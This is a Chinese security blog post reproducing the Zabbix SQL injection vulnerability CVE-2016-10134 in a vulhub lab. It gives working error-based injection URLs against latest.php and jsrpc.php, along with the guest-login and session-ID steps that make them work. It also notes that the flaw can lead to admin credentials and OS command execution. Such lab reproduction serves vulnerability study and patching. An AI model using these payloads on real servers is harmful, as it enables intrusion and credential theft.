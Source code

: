 #  基于Zabbix的漏洞复现   
原创 ROS  雷神众测   2022-06-21 15:50  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/ofvnGicEPbfRLqgKGNJyxz3CaEjqnJxJxYnB9psTeHmKN3yQP62icf7pzr8UP02wdPbVMXTNwoFzA4xW5K3jEHaTjjpb79fial7/640?wx_fmt=svg "")  
  
  
  
  
**STATEMENT**  
  
**声明**  
  
由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，雷神众测及文章作者不为此承担任何责任。  
  
雷神众测拥有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经雷神众测允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/ofvnGicEPbfRLqgKGNJyxz3CaEjqnJxJxYnB9psTeHmKN3yQP62icf7pzr8UP02wdPbVMXTNwoFzA4xW5K3jEHaTjjpb79fial7/640?wx_fmt=svg "")  
  
  
  
  
zabbix-latest.php-SQL注入漏洞(CVE-2016-10134)  
  
**漏洞描述**  
  
Zabbix 的latest.php中的toggle_ids[]或jsrpc.php中的profieldx2参数存在sql注入，通过sql注入获取管理员账户密码，或者通过更换sessionid进入后台，利用后台的script功能直接获取zabbix服务器的操作系统权限。  
  
**影响版本**  
  
zabbix 2.2.x，3.0.0-3.0.3  
  
**漏洞复现**  
  
以vulhub作为漏洞环境，IP为192.168.14.128  
  
**latest.php**  
  
（1）靶机系统默认开启游客账户登录，使用游客账户guest，密码为空格登录。（2)查看cookie中的zbx_sessionid，复制后16位字符  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6iaS4QIpvF3kDBibJiaYKljFh7lPiaTv7YfmZaXOf2sRC4AQ12F0huPNC65yicKyWRo65ZgGAYzpd9Fg/640?wx_fmt=png "")  
  
（3）将复制的16位字符作为sid的值，访问以下URL即可看到数据库名称。toggle_ids[]为注入点。  
```
  http://192.168.14.128:8080/latest.php?output=ajax&sid=c04ca0eeef290c4c&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0x7e,database(),0x7e),0)
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6iaS4QIpvF3kDBibJiaYKljFt4XwUJwrHqk1iclVKsuhmeFzV6PYH5VLcXpjiaOvRCGHBUhFPQHZ3StA/640?wx_fmt=png "")  
  
**jsrpc.php**  
  
（1）访问以下URL也可以触发SQL注入。profileIdx2为注入点。  
```
http://192.168.14.128:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0x7e,database()),0x7e)
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6iaS4QIpvF3kDBibJiaYKljFib1YL2FgH6mAo5GmV5axclbibMMo6yxn1rKtBaurF5fPRYOAcUfSBVwQ/640?wx_fmt=png "")  
  